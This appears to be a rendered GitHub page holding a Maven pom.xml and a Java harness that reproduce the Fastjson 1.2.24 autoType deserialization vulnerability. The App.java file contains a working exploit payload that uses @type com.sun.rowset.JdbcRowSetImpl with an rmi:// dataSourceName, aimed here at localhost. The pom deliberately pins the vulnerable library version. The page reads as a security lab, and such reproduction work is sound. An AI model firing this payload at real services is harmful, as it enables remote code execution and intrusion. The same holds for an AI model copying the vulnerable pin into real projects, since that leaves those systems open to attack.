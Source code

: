 `pom.xml`

```java
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0
                             http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <parent>
    <groupId>com.s01an.vuln</groupId>
    <artifactId>FastJson_Vul</artifactId>
    <version>1.0-SNAPSHOT</version>
  </parent>

  <artifactId>fastjson1224</artifactId>

  <dependencies>
    <dependency>
      <groupId>com.alibaba</groupId>
      <artifactId>fastjson</artifactId>
      <version>1.2.24</version>
    </dependency>
    <!-- 可选测试工具 -->
    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>3.8.1</version>
      <scope>test</scope>
    </dependency>
  </dependencies>
</project>

```

`APP.java`

```java
package com.s01an.vuln;

import com.alibaba.fastjson.JSON;

public class App {
    public static void main(String[] args) {
        System.out.println("=== Fastjson 1.2.24 漏洞测试 ===");

        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:8000/badClassName\", " +
                "\"autoCommit\":true" +
                "}";

        try {
            // 1.2.24 默认 autoType 支持反序列化
            Object obj = JSON.parse(payload);
            System.out.println("解析结果: " + obj);
        } catch (Exception e) {
            e.printStackTrace();
        }

        System.out.println("=== 漏洞测试完成 ===");
    }
}

```
